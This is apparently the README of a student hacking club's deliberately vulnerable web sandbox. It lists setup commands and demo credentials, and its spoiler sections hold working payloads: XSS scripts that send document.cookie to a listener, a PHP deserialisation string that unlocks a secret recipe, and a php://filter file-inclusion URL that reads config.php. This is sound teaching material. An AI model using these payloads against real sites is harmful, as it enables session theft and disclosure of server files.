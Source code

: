 # Web-Hacking-Demo
A web application hacking sandbox challenge for [Sheffield Ethical Student Hackers](https://shefesh.com). Covering insecure deserialisation, SSRF, XSS, and more

## Setup

Install mysql: `sudo apt install mysql-server php-mysql`

Start service: `sudo systemctl start mysql.service`

Configure: `sudo mysql; CREATE USER 'sesh'@'localhost' IDENTIFIED BY 'SESHPassword123!';`

Seed: `mysql -u sesh -p < seed.sql`

## Login

`sesh_admin`:`mylongpassword123?`

## Exploit XSS

The `/reviews` page allows posting reviews. Click one of the sublinks to render the reviews using different levels of user input sanitisation, and see if you can steal an admin cookie.

<details>

<summary>Spoilers</summary>

For the unsanitised version, you can create an XHR or fetch request to steal a cookie:

`<script>cookie = document.cookie; fetch('http://localhost:8001/?cookie=' + cookie).then(response => response.json()).then(data => console.log(data));</script>`

For the sanitised version, script and iframe tags are removed. You can use uppercase SCRIPT tags:

`<SCRIPT>cookie = document.cookie; fetch('http://localhost:8001/?cookie=' + cookie).then(response => response.json()).then(data => console.log(data));</SCRIPT>`

Or use an img:

`<img src=x onerror="this.src='http://localhost:8001/?'+document.cookie; this.removeAttribute('onerror');">`

</details>

## Exploit Deserialisation

The Recipes section has a deserialisation vulnerability that allows reading a secret recipe that would normally be encrypted. This challenge was repurposed from last year's CTF.

<details>

<summary>Spoilers</summary>

Read the source code for the `get-recipe.php` and `create-recipe.php` files using the LFI in the first form field (submit `../get-recipe.php` etc).

This shows us how to submit a new secret recipe: `http://[URL]/create-recipe.php?recipe_recipe=O:12:%22SecretRecipe%22:4:{s:9:%22encrypted%22;b:0;s:5:%22title%22;s:4:%22Test%22;s:8:%22contents%22;s:4:%22Test%22;s:2:%22id%22;i:1;}`

This string defines a serialised `SecretRecipe` instance that references the secret recipe we want to steal from the database, but sets `encrypted` to false.

We can then use the ID given to us by the application and submit it to the "Construct Recipe from String in Database" field, where it is deserialised: `http://localhost:8000/get-recipe.php?recipe=&id=&string_id=[ID]`.

</details>

## Exploit File Inclusion

There is a file inclusion vulnerability on `/recipe-hash`

<details>

<summary>Spoilers</summary>

The `recipe-hash.php` file has an `include` statement that includes the contents of the `?hash=` parameter.

To read the config file:

`http://[URL]/recipe-hash.php?hash_input=hello&hash=php://filter/convert.base64-encode/resource=config.php`

</details>